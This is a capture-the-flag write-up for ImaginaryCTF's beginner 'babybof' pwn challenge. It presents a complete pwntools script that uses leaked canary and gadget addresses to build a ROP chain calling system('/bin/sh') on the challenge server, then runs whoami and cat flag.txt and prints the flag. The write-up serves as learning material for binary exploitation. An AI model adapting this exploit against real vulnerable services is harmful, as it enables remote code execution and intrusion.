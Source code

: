 **Type:** Pwn  
**Level:** 1/3  
**Author:** Eth007  
**Solved by:** LUZ1LF3R

**Description:**  
welcome to pwn! hopefully you can do your first buffer overflow

**Files:** vuln

**Plan:**  
From the challenge description, this challenge looks lika a simple buffer overflow chall. Performing buffer overflow shall give us the flag

**Notes:**  
I crafted a Return-Oriented Programming (ROP) exploit for a stack-based buffer overflow challenge as after testing the binary I found that it is protecting the stack canary. So the script bypasses the stack canary protection and executes `system("/bin/sh")` to get a shell. Here is the python script:

```python
#!/usr/bin/env python3
from pwn import *
from time import sleep

# Target
HOST, PORT = "babybof.chal.imaginaryctf.org", 1337

def find_exact_offset():
    """
    Probe different offsets to identify where the stack canary sits.
    Uses a marker to detect if/when we overwrite it.
    """
    print("Finding exact canary offset...")
    for offset in range(40, 60, 8):
        try:
            p = remote(HOST, PORT)
            output = p.recvuntil(b"enter your input").decode()

            # Parse canary
            canary = None
            for line in output.splitlines():
                if "canary:" in line:
                    canary = int(line.split(":")[1].strip(), 16)
                    break
            if not canary:
                p.close()
                continue

            # Build test payload
            test_payload = b"A" * offset + b"TESTMARK"
            p.sendline(test_payload)
            response = p.recvall(timeout=2).decode()

            print(f"Offset {offset}: Original canary = 0x{canary:x}")
            if f"canary: 0x{canary:x}" in response:
                print(f"  ✓ Canary preserved at {offset}")
            elif "canary: 0x4b52414d54534554" in response:  # "TESTMARK"
                print(f"  ⚠ Canary overwritten at {offset}")
            else:
                corrupted = [l for l in response.splitlines() if "canary:" in l]
                if corrupted:
                    print(f"  ✗ Canary corrupted: {corrupted[0]}")

            p.close()
        except Exception as e:
            print(f"Error at {offset}: {e}")
            continue

def exploit():
    """
    Build a ROP chain to call system("/bin/sh").
    Payload layout:
      [56 buffer] + [canary] + [rbp] + [ROP chain]
    """
    p = remote(HOST, PORT)
    output = p.recvuntil(b"enter your input").decode()

    # Parse leaked values
    system_addr = pop_rdi_ret = ret_addr = binsh_addr = canary = None
    for line in output.splitlines():
        if "system @" in line:
            system_addr = int(line.split("@")[1].strip(), 16)
        elif "pop rdi; ret @" in line:
            pop_rdi_ret = int(line.split("@")[1].strip(), 16)
        elif "ret @" in line:
            ret_addr = int(line.split("@")[1].strip(), 16)
        elif '"/bin/sh" @' in line:
            binsh_addr = int(line.split("@")[1].strip(), 16)
        elif "canary:" in line:
            canary = int(line.split(":")[1].strip(), 16)

    print(f"system: 0x{system_addr:x}")
    print(f"canary: 0x{canary:x}")

    # Construct payload
    payload  = b"A" * 56
    payload += p64(canary)
    payload += b"B" * 8             # saved rbp
    payload += p64(ret_addr)        # stack alignment
    payload += p64(pop_rdi_ret)
    payload += p64(binsh_addr)
    payload += p64(system_addr)

    print(f"Payload length = {len(payload)} bytes")

    p.sendline(payload)
    sleep(1)

    # Basic shell test
    p.sendline(b"whoami")
    resp = p.recv(timeout=2)
    print(f"whoami → {resp}")

    # Try to grab flag
    p.sendline(b"cat flag.txt")
    flag = p.recv(timeout=2)
    print(f"Flag attempt: {flag}")
    if b"ictf{" in flag:
        print(f"\n🚩 FLAG FOUND: {flag.decode()} 🚩\n")

    p.interactive()

def main():
    context.arch = "amd64"
    context.log_level = "info"
    print("=== BABYBOF ===")

    find_exact_offset()
    print("\n=== EXPLOITING ===")
    exploit()

if __name__ == "__main__":
    main()
```

**Breakdown:**

1. The binary allows buffer overflow but protects the stack canary by assigning a value.
2. Crafted a script that:
   - Finds the exact canary offset by testing payloads.
   - Crafts a ROP chain to call system("/bin/sh").
   - Pops a shell and grabs the flag.

**Outcome:**
Successfully exploited the binary and the remote server using buffer overflow.

**Flag:**
`ictf{arent_challenges_written_two_hours_before_ctf_amazing}`
